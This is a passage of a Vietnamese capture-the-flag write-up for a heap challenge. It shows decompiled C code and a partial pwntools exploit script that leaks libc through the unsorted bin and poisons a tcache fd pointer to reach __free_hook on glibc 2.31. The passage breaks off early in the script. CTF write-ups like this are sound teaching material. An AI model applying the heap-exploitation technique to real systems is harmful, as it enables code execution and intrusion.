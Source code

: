 ```c
unsigned __int64 view()
{
  int idx; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  idx = 0;
  printf("index > ");
  __isoc99_scanf("%d", &idx);
  if ( notes[idx] )
    write(1, (const void *)notes[idx], (unsigned int)sizes[idx]);
  else
    puts("invalid!");
  return __readfsqword(0x28u) ^ v2;
}
```


### EXPLOIT

- ở bài này ta có thể overwrite heap và không có hạn chế nhiều nên ta có thể leak libc thoải mái bằng cách free() 1 chunk > 0x420 -> vào unsorted-bin và ta sẽ có libc 
- khi có libc rồi thì phiên bản libc ở bài này là 2.31 -> có tcache , ta chỉ việc free 2 tcache và ta có thể dùng overflow để overflow ```fd``` của tcache trỏ đến
```free_hook``` , cuối cùng chỉ cần ```malloc``` lại và thay đổi dữ liệu trong ```tcache```

script 


```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chal_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe
#p = process()
p = remote('172.31.3.2', 4241)
def add(idx,size):
    p.sendlineafter(b'> ',b'1')
    p.sendlineafter(b'> ',f'{idx}'.encode())
    p.sendlineafter(b'> ',f'{size}'.encode())

def delete(idx):
    p.sendlineafter(b'> ',b'2')
    p.sendlineafter(b'> ',f'{idx}'.encode())
def edit(idx,size,data):
    p.sendlineafter(b'> ',b'3')
    p.sendlineafter(b'> ',f'{idx}'.encode())
    p.sendlineafter(b'> ',f'{size}'.encode())
    p.sendafter(b'> ',data)

def show(idx):
    p.sendlineafter(b'> ',b'4')
    p.sendlineafter(b'> ',f'{idx}'.encode())


add(0, 0x500)
add(1, 0x10)

delete(0)
```